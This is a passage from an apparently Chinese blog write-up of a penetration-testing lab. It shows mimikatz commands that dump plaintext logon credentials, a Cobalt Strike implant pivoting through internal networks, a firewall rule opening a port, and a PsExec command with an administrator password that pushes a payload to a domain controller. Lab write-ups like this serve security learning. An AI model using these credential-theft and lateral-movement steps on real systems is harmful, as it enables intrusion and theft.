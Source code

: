 ```
kiwi_cmd sekurlsa::logonPasswords //抓取明文
```

![](https://mmbiz.qpic.cn/mmbiz_png/EG5vnf7iaBIyoEJUhw2osOmP8bKclPTtkagt8AmvrbGWh1b0hBXQVicHcuWxLyKdK6BMiaT7HGeELGoMglDaImDxA/640?wx_fmt=png)

```
creds_all 效果也是一样的
```

![](https://mmbiz.qpic.cn/mmbiz_png/EG5vnf7iaBIyoEJUhw2osOmP8bKclPTtkHLWeh2T8emtzg7RTQElZ6nLcjydmIXDOcUaVCIK5faeMmjrzia2mdBg/640?wx_fmt=png)

抓到了域用户，那么就可以尝试 psexec 传递了，MSF 失败了。。。。。。愚昧。。。。正好换 CS 搞  

通过 CS 来做
--------

上传 CS 木马上线

![](https://mmbiz.qpic.cn/mmbiz_png/EG5vnf7iaBIyoEJUhw2osOmP8bKclPTtkcbYYusGDtNU14CWIZkCFKYmUe9tUe1snPpZotoTUNOiaUSyj0mtcViag/640?wx_fmt=png)

抓取明文  

![](https://mmbiz.qpic.cn/mmbiz_png/EG5vnf7iaBIyoEJUhw2osOmP8bKclPTtkXyx9UTlp6R3qQDib0ZaqIeauwbppd4jbwk91eFibBqe1uD1bibPI12Vibw/640?wx_fmt=png)

CS 多层内网上线  

![](https://mmbiz.qpic.cn/mmbiz_png/EG5vnf7iaBIyoEJUhw2osOmP8bKclPTtkklxkeGsyUpJnDNF1GhqlicTLFIjmKsG9mL85ePewickRhsdtqAx6thUA/640?wx_fmt=png)

设置防火墙规则  

```
netsh advfirewall firewall add rule name=cs dir=in action=allow protocol=TCP localport=9999
```

这里说明一下，搞了好久。。。一直报句柄无效，不过最后解决了。如果你也做了这个靶场，并且到这里出现和我一样的问题，可以后台私信我，看看能不能提供点帮助给你，我这里就不贴出来。

```
shell C:\WINDOWS\Temp\PsExec.exe -accepteula \\192.168.138.138 - u Administrator -p dc123123.com -d -c C:\WINDOWS\Temp\2222.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/EG5vnf7iaBIyoEJUhw2osOmP8bKclPTtkacf9vyKyJoj0m4qnPTYTp1VRyAlIFFWPzbiaw57dwq3TzYvJn156QzQ/640?wx_fmt=png)

剩下的挂代理就可以了，结束  

![](https://mmbiz.qpic.cn/mmbiz_png/EG5vnf7iaBIyoEJUhw2osOmP8bKclPTtk8XrlrKhNxn8nEw7ektgB0PJncFeKo7pk8r0GdyeLVGjB8TW9PKszIw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

一如既往的学习，一如既往的整理，一如即往的分享。感谢支持![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icl7QVywL8iaGT0QBGpOwgD1IwN0z9JicTRvzvnsJicNRr2gRvJib6jKojzC5CJJsFPkEbZQJ999HrH5Gw/640?wx_fmt=png)  

“如侵权请私聊公众号删文”

****关注 LemonSec****  

公众号

**觉得不错点个 **“赞”**、“在看” 哦****![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1YhlAJOGvAaVRV0ZSSnX46ibouOHe05icukBYibdJOiaOpO06ic5eb0EMW1yhjMNRe1ibu5HuNibCcrGsqw/640?wx_fmt=png)**
